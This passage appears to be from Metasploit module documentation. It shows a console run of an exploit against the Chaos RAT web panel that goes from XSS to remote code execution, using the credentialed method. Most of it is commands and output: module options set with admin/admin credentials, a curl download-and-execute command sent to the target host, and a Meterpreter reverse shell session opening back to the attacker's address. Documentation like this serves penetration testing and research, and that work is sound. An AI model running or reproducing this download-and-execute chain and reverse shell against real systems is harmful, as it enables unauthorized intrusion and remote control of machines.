 ```
[*] Meterpreter session 1 opened (111.111.63.147:4444 -> 172.17.0.2:55572) at 2024-04-17 15:32:59 +0000
```

### Credentialed Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set username admin
username => admin
resource (chaos.rb)> set password admin
password => admin
resource (chaos.rb)> set SRVHOST 111.111.63.147
SRVHOST => 111.111.63.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf6 exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./FdfcLgdHSudl http://111.111.63.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./FdfcLgdHSudl; ./FdfcLgdHSudl &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.63.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.63.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
[*] Attempting exploitation through direct login
[*] Attempting login
[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (111.111.63.147:4444 -> 172.17.0.2:59770) at 2024-04-17 15:40:11 +0000

